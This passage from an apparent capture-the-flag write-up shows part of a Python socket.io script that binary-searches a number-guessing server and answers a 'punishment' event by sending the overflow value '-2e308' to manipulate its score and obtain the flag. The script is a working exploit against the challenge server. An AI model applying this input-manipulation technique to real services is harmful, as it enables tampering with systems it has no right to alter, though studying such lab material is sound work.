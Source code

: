```python
                current_guess = (min_val + max_val) // 2
                print(f"[*] Binary Search: Guessing {current_guess} (Range: {min_val}-{max_val})")
                await sio.emit("guess", {"value": str(current_guess)})

    elif message_type == "error":
        print(f"[!] Server Error: {message}")
        await sio.disconnect()

@sio.event
async def punishment(data):
    global score_manipulated
    print("[*] Received punishment event. Sending large negative score...")
    large_negative_score = "-2e308"
    await sio.emit("punishment-response", {"score": large_negative_score})
    score_manipulated = True
    print(f"[*] Sent punishment response with score: {large_negative_score}")

async def main():
    global flag_received
    try:
        print(f"[*] Attempting to connect to {SERVER_URL}...")
        await sio.connect(SERVER_URL, socketio_path=WS_PATH)
        await sio.wait()
    except socketio.exceptions.ConnectionError as e:
        print(f"[!] Connection failed: {e}")
        print("[!] Please ensure the server is running and the SERVER_URL is correct.")
    except Exception as e:
        print(f"[!] An unexpected error occurred: {e}")
    finally:
        if sio.connected:
             await sio.disconnect()
        if not flag_received:
            print("[*] Script finished without finding the flag.")

if __name__ == '__main__':
    if len(sys.argv) > 1:
        SERVER_URL = sys.argv[1]
        print(f"[*] Using server URL from argument: {SERVER_URL}")
    try:
        asyncio.run(main())
    except KeyboardInterrupt:
        print("\n[*] Script interrupted by user.")
```

![image-20250508105402110](./assets/image-20250508105402110.png)
